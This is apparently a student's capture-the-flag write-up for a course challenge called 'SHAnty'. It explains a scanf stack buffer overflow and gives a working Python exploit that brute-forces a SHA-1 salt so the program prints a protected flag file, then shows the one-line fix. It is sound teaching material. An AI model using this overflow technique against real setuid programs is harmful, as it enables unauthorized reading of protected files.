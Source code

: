 **Name:** flofriday

**Points:** 1 of 1 Points

<hr>

# SHAnty

## Overview

The given program `shanty` asks for a password and if the password is correct it will print the content of the file `/challenges/shanty/info` to stdout.

## Vulnerability

The bufferoverflow vulnerabillity is in line 43 where the program tries to read 70 characters (69 input characters plus 1 byte null-terminator) into the buffer `password` which is only 20 characters long, thereby allowing an attacker to overwrite other memory on the stack.

```c
scanf("%69s", password);
```

## Exploitation

During development of this exploit I was on a call with █████, █████ and later on another call with █████. On those calls we discussed the problems, possible strategies but never shared code or flags.

The first step is to build the code ourself, so that we can debug the program with `gdb`.

```bash
mkdir $HOME/shanty
cd shanty
cp /challenges/shanty/shanty.c /challenges/shanty/Makefile .
```

Now we have copied the source files into a subdirectory of our homefolder. However, before we can build the binary, we need to patch the `Makefile` by removing all `chmod` and `chown` commands and adding the `-g` compile flag, so that our binary contains debug symbols. The modiefied Makefile looked like this:

```makefile
CFLAGS=-Wall -Wextra -pedantic -ansi -m32 -fno-stack-protector -g
LIBS=-lcrypto

shanty: shanty.c
        gcc $(CFLAGS) shanty.c -o shanty $(LIBS)

clean:
        rm -f shanty
```

By executing the following two commands we can compile the program and open it with `gdb`.

```bash
make shanty
gdb shanty
```

After inspecting the source code in `main.c` we can assume that the vulnarbility is a bufferoverflow. We can now test this hypotheses by starting the program in gdb, setting a breakpoint at line `44` with `br 44` and when asked for a password entering over seventy `"A"`. Once we hit the breakpoint we can inspect the variables with `print/x password` to see the hex values of each byte in the buffer. By further inspecting all variables of the main function we can see that we can overwrite `password`, `salt`, `filename` as well as the first 17 bytes of `correct_hash`. The 18th byte of `correct_hash` was overwritten by the null-terminator and the 19th and 20th bytes still remained from the original `correct__hash`.

To exploit the program we need to create a payload to fulfill the following criteria:

- **bytes 01-20:** Any password, however the 20th byte must be zero, because the C-code reads the length in line 46 to calculate the hash.

- **bytes 21-28:** Any salt.

- **bytes 28-54:** The string `"/challenges/shanty/flag\0"`, to read out the flag and not the `info` file.

- **bytes 54-69:** The first 17 bytes of the hash calculated from our salt concatenated with our password.

- Further, we need to guess (bruteforce) either the salt or password (or both) so that the resulting hash ends in the bytes `0x00, 0xc1, 0x03`.

- Finally, scanf stops at any whitespace character, therefore our payload cannot contain any of the following characters: `" \t\n\r\f\v"`.

For my exploit, I decided to set the password to something funny, and only guess the salt. My script also wirtes the hex values to `stderr` for easy comparison with `gdb` and only writes the correct payload to `stdout`. My exploit in `expl.py` looks like this:

```python
import hashlib
import sys
import random
import string

# Setup variables
file_name = b"/challenges/shanty/flag\0"
pswd = b"flotschi_was_here" # 17 chars here
pswd_fill = b'\0\0\0' # Needed to fill the password to stretch to 20chars
whitespaces = b' \t\n\r\f\v'

# Guess the salt
print('Brutforcing the salt... (this may take a while)', file=sys.stderr)
while True:
    salt = b''
    for _ in range(8):
        salt += random.choice(string.ascii_letters).encode('ascii')

    m = hashlib.sha1()
    m.update(salt + pswd)
    hash = m.digest()

    # The last bytes of the hash must match and we cannot enter
    # whitespaces into scanf
    if hash[-3:] == b"\x00\xc1\x03" and not any(ch in hash for ch in whitespaces):
        break

# Write debug output to stderr in hex to compare with gdb
payload = pswd + pswd_fill + salt + file_name + hash
print(f''' --- HEX DEBUG VALUES ---
Password: {(pswd + pswd_fill).hex()}
Filename: {file_name.hex()}
    Salt: {salt.hex()}
    Hash: {hash.hex()}
 Payload: {payload.hex()}
''',file=sys.stderr)

# Write correct payload to stdout
sys.stdout.buffer.write(payload)
```

To run the script and get the flag enter:

```bash
python3 expl.py | /challenges/shanty/shanty
```

## Solution

To fix the program, line 43 should be changed to:

```c
scanf("%19s", password);
```

With this change any attacker could only write to the 20 chars (19 actual characters and 1 null-terminator) of the `password` buffer, and thereby no longer overwrite other memory like the `salt`, `correct_hash` or `file_name`.
